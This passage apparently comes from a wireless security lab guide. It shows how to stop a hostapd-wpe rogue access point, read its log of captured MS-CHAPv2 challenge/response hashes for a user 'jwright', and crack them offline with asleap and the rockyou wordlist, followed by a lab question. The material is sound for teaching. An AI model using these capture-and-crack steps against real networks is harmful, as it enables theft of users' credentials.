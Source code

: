 #### Stop Hostapd-wpe <a href="#stop-hostapd-wpe" id="stop-hostapd-wpe"></a>

Stop the `hostapd-wpe` process by pressing **CTRL+C** in that terminal window.

#### Examine Hostapd-wpe Logging <a href="#examine-hostapd-wpe-logging" id="examine-hostapd-wpe-logging"></a>

Examine the credential information collected in the `hostapd-wpe.log` capture file. You will see an initial authentication exchange for the user _jwright_, followed by any additional authentication credentials for your testing.

```
# cat hostapd-wpe.log
mschapv2: Fri Jun 22 13:12:03 2018
	 username:	jwright
	 challenge:	ea:e5:2e:4d:f1:55:f2:38
	 response:	65:76:b8:33:d6:29:dc:40:03:e2:62:7a:38:90:23:42:1f:3e:0e:f2:bf:8f:57:31
	 jtr NETNTLM:		jwright:$NETNTLM$eae52e4df155f238$6576b833d629dc4003e2627a389023421f3e0ef2bf8f5731
	 hashcat NETNTLM:	jwright::::6576b833d629dc4003e2627a389023421f3e0ef2bf8f5731:eae52e4df155f238
 ... omitted
```

#### Crack MS-CHAPv2 Credentials <a href="#crack-ms-chapv2-credentials" id="crack-ms-chapv2-credentials"></a>

Use `asleap` to recover the password for the user _jwright_ with the rockyou.txt dictionary word list file. First, decompress the `/usr/share/wordlists/rockyou.txt.gz` file, as shown.

```
# gzip -d /usr/share/wordlists/rockyou.txt.gz
```

Next, use `asleap` with the `-C` option to specify the challenge, the `-R` option to specify the response, and the `-W` option to specify the wordlist file.

```
# asleap -C ea:e5:2e:4d:f1:55:f2:38 -R 65:76:b8:33:d6:29:dc:40:03:e2:62:7a:38:90:23:42:1f:3e:0e:f2:bf:8f:57:31 -W /usr/share/wordlists/rockyou.txt 
asleap 2.2 - actively recover LEAP/PPTP passwords. 
Using wordlist mode with "/usr/share/wordlists/rockyou.txt".
```

> This same command is repeated here, broken up into multiple lines for legibility:

```
asleap -C ea:e5:2e:4d:f1:55:f2:38 
        -R 65:76:b8:33:d6:29:dc:40:03:e2:62:7a:38:90:23:42:1f:3e:0e:f2:bf:8f:57:31
        -W /usr/share/wordlists/rockyou.txt 
```

**Question**: What is the password recovered in the `hostapd-wpe.log` file for the `jwright` user?

### Identifying Vulnerable Clients - Answers <a href="#identifying-vulnerable-clients---answers" id="identifying-vulnerable-clients---answers"></a>
